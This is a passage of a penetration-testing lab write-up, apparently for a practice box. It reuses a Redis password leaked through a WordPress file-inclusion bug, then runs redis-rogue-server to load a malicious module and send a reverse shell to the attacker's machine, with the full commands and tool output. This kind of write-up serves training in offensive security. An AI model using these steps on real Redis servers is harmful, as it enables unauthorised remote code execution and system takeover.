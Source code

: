 Get the `redis` password is Ready4Redis?

## 6379

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script/nmapAutomator]
└─$ redis-cli -h 192.168.231.166
192.168.231.166:6379> info
NOAUTH Authentication required.
192.168.231.166:6379> exit

```

Redis need authentication, get from `wordpress` LFI.

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ redis-cli -h 192.168.231.166 -a "Ready4Redis?"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
192.168.231.166:6379> PING
PONG
192.168.231.166:6379> 
```

Use [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) to reverse shell.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/Hawat/redis-rogue-server-master]
└─$ ./redis-rogue-server.py --rhost 192.168.184.166 --lhost 192.168.45.169 --passwd="Ready4Redis?"
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.184.166:6379
[info] SERVER 192.168.45.169:21000
[info] Setting master...
[info] Authenticating...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 192.168.45.169
Reverse server port: 80
[info] Reverse shell payload sent.
[info] Check at 192.168.45.169:80
[info] Unload module...

```
